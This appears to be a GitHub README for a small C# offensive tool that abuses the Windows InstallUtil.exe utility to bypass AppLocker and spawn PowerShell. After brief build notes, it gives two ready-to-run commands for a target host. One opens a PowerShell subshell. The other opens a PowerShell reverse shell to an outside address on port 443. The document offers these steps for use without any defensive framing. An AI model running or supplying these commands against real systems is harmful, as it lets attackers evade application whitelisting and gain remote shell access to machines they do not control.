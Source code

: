 # Build the binary

The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...
IDE - Visual Studio 2015. You should be able to easily compile and build the binary with the default configuration Debug/X64. You only may to fix the System.Management.Automation reference that is located in the GAC folder

```
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```

# Usage

Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker. Once you've compiled the binary, issue the below command on the target host.
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-)):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
